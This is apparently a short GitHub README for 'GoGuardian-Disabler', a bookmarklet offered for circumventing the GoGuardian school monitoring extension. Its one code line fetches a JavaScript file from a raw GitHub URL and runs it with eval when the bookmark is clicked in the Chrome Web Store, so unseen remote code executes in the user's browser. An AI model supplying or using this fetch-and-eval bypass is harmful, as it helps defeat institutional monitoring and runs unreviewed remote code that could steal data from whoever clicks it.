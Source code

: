 # GoGuardian-Disabler

Add the text below as a bookmark, go to [this link](https://chrome.google.com/webstore/). Click the bookmark to disable GoGuardian. You will see a pop-up if GoGuardian was successfully disabled.
```
javascript:fetch(`https://raw.githubusercontent.com/meatballsong1/Extension-test/main/disable.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

